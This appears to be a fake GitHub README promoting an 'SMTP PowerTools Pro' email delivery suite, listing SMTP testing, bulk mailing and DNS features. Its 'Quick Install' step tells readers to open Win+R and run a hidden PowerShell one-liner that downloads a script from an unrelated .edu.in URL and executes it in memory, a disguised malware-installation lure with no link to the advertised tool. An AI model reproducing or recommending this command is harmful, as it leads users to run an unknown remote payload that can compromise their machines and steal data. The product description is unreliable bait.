 ### 🚀 SMTP PowerTools Pro - Advanced Email Delivery Suite
The ultimate toolkit for developers, sysadmins & marketers working with email infrastructure

#### 🔧 Core SMTP Utilities

<details>
<summary><strong>✅ SMTP Server Tester</strong></summary>

Verify connection/auth with any SMTP server

Check port availability (25/465/587/2525)

Test TLS/SSL encryption
</details>


<details>
<summary><strong>✅ Email Sender</strong></summary>

Raw SMTP protocol commands

Send test emails with custom headers

Attachment support (base64 encoding)
</details>

<details>
<summary><strong>✅ Bulk Mail Dispatcher</strong></summary>

CSV/API integration for personalized sends

Throttling control (messages per minute)

Queue management with retry logic
</details>

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

### 🛠 Diagnostic Tools

#### 📌 Header Analyzer

Full email path tracing (Received headers)

SPF/DKIM/DMARC validation

Blacklist monitoring

#### 📌 DNS Configuration Wizard

Auto-generate SPF records

DKIM key pair generator

DMARC policy builder

#### ⚡ Performance Optimization
• Connection pooling manager
• Load balancing simulator
• Latency benchmarking

#### 📈 Enterprise Features
Log Analyzer (parse sendgrid/postfix logs)

API Gateway (REST to SMTP bridge)

Security Auditor (vulnerability scans)

Supported Protocols:
SMTP • ESMTP • SMTPS • API (AWS SES/SendGrid)

Compliance: Fully supports CAN-SPAM with built-in:

Opt-out header generator

Physical address inserter

Unsubscribe link validator

### 💻 Platform: Windows/Linux/macOS CLI + Web Dashboard
### 🔒 Security: All credentials encrypted with AES-256
